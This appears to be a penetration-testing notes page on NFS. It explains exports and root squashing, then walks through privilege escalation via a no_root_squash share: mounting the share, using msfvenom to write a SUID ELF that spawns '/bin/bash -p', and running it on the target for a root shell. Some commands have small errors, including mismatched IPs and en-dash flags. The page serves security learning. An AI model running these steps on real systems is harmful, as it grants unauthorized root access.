 # NFS

NFS \(Network File System\) is a popular distributed file system.NFS shares are configured in the /etc/exports file. Remote users can mount shares, access, create, modify files. By default, created files inherit the remote user’s id and group id \(as owner and group respectively\), even if they don’t exist on the NFS server.



## Useful Commands

Show the NFS server’s export list:

####   `showmount -e [target]`

Similar Nmap script:

#### `nmap –sV –script=nfs-showmount [target]`

Mount an NFS share:

#### `mount -o rw,vers=2 [target]:[share] [local_directory]`

## Root Squashing

Root Squashing is how NFS prevents an obvious privilege escalation. If the remote user is \(or claims to be\) root \(uid=0\), NFS will instead “squash” the user and treat them as if they are the “nobody” user, in the “nogroup” group.While this behavior is default, it can be disabled!

## no\_root\_squash

no\_root\_squash is an NFS configuration option which turns root squashing off. When included in a writable share configuration, a remote user who identifies as “root” can create files on the NFS share as the local root user.

Check the contents of /etc/exports for shares with the no\_root\_squash option:

#### `cat /etc/exports`

![](../../../.gitbook/assets/nfs1.png)





Confirm that the NFS share is available for remote mounting:

#### `root@W4LK3R:~# showmount -e 192.168.1.25  Export list for 192.168.56.102:  /tmp *`

Create a mount point on your local machine and mount the /tmp NFS share:

#### `mkdir /tmp/nfs  mount -o rw,vers=2 192.168.1.25:/tmp /tmp/nfs`

Using the root user on your local machine, generate a payload and save it to the mounted share:

#### `msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`

Make sure the file has the SUID bit set, and is executable by everyone:

#### `chmod +xs /tmp/nfs/shell.elf`

On the target machine, execute the file to get a root shell:

#### `/tmp/shell.elf`































